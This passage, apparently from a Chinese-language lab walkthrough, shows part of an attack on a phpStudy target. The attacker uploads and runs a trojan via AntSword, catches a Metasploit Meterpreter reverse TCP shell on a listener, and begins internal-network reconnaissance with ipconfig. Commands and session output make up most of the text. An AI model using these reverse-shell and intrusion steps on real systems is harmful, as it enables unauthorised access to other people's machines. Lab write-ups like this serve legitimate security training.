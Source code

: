 3. 通过蚁🗡上传马到靶机上
4. `kali`开启监听
    
    ```python
    msf6 exploit(multi/handler) > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
    msf6 exploit(multi/handler) > set lhost 192.168.75.151
    msf6 exploit(multi/handler) > set lport 1234
    msf6 exploit(multi/handler) > run
    ```
    
5. 通过蚁🗡启动马
    
    ```python
    C:\phpStudy\WWW> shell.exe
    ```
    
    ```python
    [*] Started reverse TCP handler on 192.168.75.151:1234 
    [*] Meterpreter session 5 opened (192.168.75.151:1234 -> 192.168.75.186:2114) at 2024-11-13 00:22:32 +0800
    
    meterpreter > 
    ```
    
    获得`shell` ，上线`MSF`
    

## 内网信息收集

1. 查看当前靶机IP
    
    ```python
    meterpreter > ipconfig                                                                                                                                                                                                                                                                                                                                                                                                          
    Interface 11                                                                                                                                                                                                      
    ============                                                                                                                                                                                                      
    Name         : Intel(R) PRO/1000 MT Network Connection                                                                                                                                                            
    Hardware MAC : 00:0c:29:55:cf:5a                                                                                                                                                                                  
    MTU          : 1500                                                                                                                                                                                               
    IPv4 Address : 192.168.52.143                                                                                                                                                                                     
    IPv4 Netmask : 255.255.255.0                                                                                                                                                                                      
    IPv6 Address : fe80::69c6:31ff:4e4e:e80b            
    IPv6 Netmask : ffff:ffff:ffff:ffff:: 
    Interface 26
    ============
    Name         : Intel(R) PRO/1000 MT Network Connection #3
    Hardware MAC : 00:0c:29:55:cf:64
    MTU          : 1500
    IPv4 Address : 192.168.75.186
    IPv4 Netmask : 255.255.255.0
    IPv6 Address : fe80::407d:48b5:70cc:cce6
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    ```
    
    可以查看到存在两张网卡，内网地址是`192.168.52.143`
    